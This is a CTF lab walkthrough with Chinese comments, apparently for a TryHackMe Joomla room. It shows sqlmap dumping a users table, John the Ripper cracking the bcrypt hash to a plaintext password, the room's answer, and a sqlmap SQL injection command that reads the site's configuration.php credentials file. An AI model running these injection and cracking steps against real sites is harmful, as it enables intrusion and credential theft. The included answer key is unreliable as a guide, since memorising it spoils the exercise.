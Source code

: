 ```
[03:42:10] [INFO] fetching entries of column(s) 'password,username' for table '#__users' in database 'joomla'
[03:42:11] [INFO] retrieved: '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[03:42:12] [INFO] retrieved: 'jonah'
Database: joomla
Table: #__users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+----------+--------------------------------------------------------------+

[03:42:12] [INFO] table 'joomla.`#__users`' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.211.216/dump/joomla/#__users.csv'
[03:42:12] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 7 times
[03:42:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.211.216'
[03:42:12] [WARNING] your sqlmap version is outdated

[*] ending @ 03:42:12 /2021-09-03/
```

#把jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm 写进hash.txt，用john破解

┌──(root💀kali)-[~/tryhackme]
└─# john --format=bcrypt hash.txt  --wordlist=/usr/share/wordlists/rockyou.txt

#记录一个john的坑
john的字典参数--wordlist，如果没有写"="号，有可能破解不出来（即：john --format=bcrypt hash.txt  --wordlist /usr/share/wordlists/rockyou.txt）
详情参考这里：https://www.reddit.com/r/HowToHack/comments/m9w0at/why_isnt_john_cracking_this_bcrypt_hash/

#查看破解的密码
└─# john --show hash.txt                                                                                                                                                                                                                1 ⨯
jonah:spiderman123

1 password hash cracked, 0 left


```
question:What is Jonah's cracked password?
answer:spiderman123
```


#拿到初始shell
##测试
sqlmap -u "http://10.10.49.149/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbms mysql --technique E --file-read /var/www/html/configuration.php  --batch
